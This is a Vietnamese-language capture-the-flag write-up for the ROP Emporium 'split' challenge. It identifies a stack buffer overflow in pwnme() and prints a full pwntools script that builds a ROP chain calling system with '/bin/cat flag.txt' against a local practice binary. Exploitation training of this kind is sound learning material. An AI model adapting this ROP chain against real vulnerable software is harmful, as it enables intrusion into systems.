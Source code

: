 # ROP_Emporium - split

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 8 cho phép ghi 0x60 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Có thể thấy ở bài này không có hàm win nên ta không thể sử dụng ret2win, thay vào đó là hàm **system** và có sẵn string "/bin/cat flag.txt"
--> ROP_gadget

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành ROP_chain khi đã có hàm system và chuỗi "/bin/cat flag.txt":

![string.png](images/string.png)

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./split', checksec=False)

p = process("./split")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
system = elf.sym['system']
strings_cat_flag = elf.sym['usefulString']

payload = flat(
    cyclic(0x28),
    ret,
    pop_rdi_ret,
    strings_cat_flag,
    system
    )
p.sendlineafter(b">",payload)
p.interactive()
```
# Lưu ý:

Chúng ta cần thêm ret vào đầu ROP_chain vì:

![ret.png](images/ret.png)

# 4. Lấy flag

![flag.png](images/flag.png)


